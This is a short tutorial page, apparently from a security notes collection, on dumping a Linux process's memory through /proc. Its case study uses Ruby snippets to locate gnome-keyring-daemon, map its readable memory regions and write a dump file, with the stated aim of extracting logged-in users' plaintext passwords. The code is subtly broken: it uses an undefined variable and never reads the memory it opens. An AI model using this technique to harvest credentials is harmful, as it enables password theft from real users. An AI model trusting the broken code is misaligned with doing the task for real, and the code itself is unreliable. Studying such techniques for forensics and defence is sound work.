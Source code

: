 # Memory Forensic

## Linux memory

### Dump Linux memory

To dump Linux memory for a specific process to disk, we need the follwoing:

1. **Get process id \(PID\):** `/proc/\[PID\]/cmdline`
   * _cmdline_ is file holds the complete command line for the process.
2. **Get PID maps:** `/proc/\[PID\]/maps`
   * _maps_ is file containing the currently mapped memory regions and their access permissions.
3. **Get processs memory pages:** `/proc/\[PID\]/mem`
   * _mem_ is a file can be used to access the pages of a process's memory through

#### Case study

Let's assume we want to dump `gnome-keyring-daemon` process's memory to our disk in order to extract the logged-in user\(s\) password\(s\) since its stored in as a plan text in memory. Moreover, we know that it comes after "libgck-1" or "libgcrypt" strings in memory. We'll brack that a parts then put it together.

**Get process id \(PID\)**

```ruby
@pids = []
Dir.glob('/proc/*/cmdline').each do |cmdline_file|
  processes_name.each do |process|
    if File.read(cmdline_file).include? "gnome-keyring-daemon"
      @pids << cmdline_file.split('/')[2].to_i  # get the pid number from proc/nnn/cmdline
    end
  end
end
```

**Get PID maps:**

```ruby
@pids_maps = []
@pids.each do |pid|
  # Open and parse maps file for each pid
  File.readlines("/proc/#{pid}/maps").each do |line|
    address, permissions = line.split(' ').first(2)
    # Find addresses in readable process memory pages
    if permissions.match(/^r.*/)
      # Find where pages starts and ends to read, no need to dump the whole memory.
      memory_start, memory_stop = address.split('-').map{|r| r.to_i(16)}
      chunk_size = memory_stop - memory_start
      @pids_maps << {pid: pid, memory_start: memory_start, memory_stop: memory_stop, chunk: chunk_size}
    end
  end
end
```

**Get processs memory pages:**

```ruby
memory_dump = ''

@pids_maps.each do |pid|
  chunk_pointer = File.open("/proc/#{pid[:pid]}/mem", 'rb')     # Open mem file
  chunk_pointer.seek  pid[:memory_start]                        # put reading pointer where page starts
  memory_dump << chunk_pointer
end

File.open('gnome-keyring.dump', 'wb') {|f| f.print memory_dump} # Write dump to the desk as binary
```







